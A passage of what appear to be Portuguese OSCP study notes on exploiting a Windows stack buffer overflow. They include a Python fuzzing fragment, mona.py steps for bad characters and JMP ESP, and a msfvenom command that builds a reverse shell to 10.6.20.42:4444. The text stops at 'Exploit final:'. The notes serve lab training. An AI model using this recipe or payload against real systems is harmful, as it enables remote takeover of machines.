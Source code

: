 ```py

print("Fuzzing with {} bytes".format(len(string) - len(prefix)))

s.send(bytes(string, "latin-1"))

s.recv(1024)

except:

print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))

sys.exit(0)

#string += 100 * "A"

time.sleep(1)
```


-   Fazer: `!mona bytearray -b "\x00"`
    

-   Anotar o enderaço de ESP
    

-   Usar: `!mona compare -f C:\mona\oscp\bytearray.bin -a <Endereço do ESP quebrado>`
    

-   Repetir o processo, atualizando a variavel bad e removendo os badchars encontrados
    

-   Lembrar de sempre gerar um novo byte array sem os badchars já encontrados
    

-   Lembrar também de atualizar na nova execução o valor do novo endereço de memória de ESP
    

-   Achar o JUMP ESP no mona, com: `!mona jmp -r esp -cpb <badchars>`
    

-   Escolher o melhor Jump (lembrar de sempre olhar pras flags false)
    

-   Anotar o endereço de memória do jump escolhido
    

-   Colocar em little endian e colocar no código na variavel de return point (EIP), tipo `0x625011af` -> `\xaf\x11\x50\x62`
    

-   Gerar o payload no msfvenom, do tipo: `msfvenom -p windows/shell_reverse_tcp LHOST=10.6.20.42 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c`
    

-   Colocar os nop sledges -> lembrar de estudar direitinho
    

-   _LEMBRAR DE NAO ENVIAR OS BADS NO XPL FINAL_
    

-   Executar o exploit, com o nc habilitado
    

Exploit final:
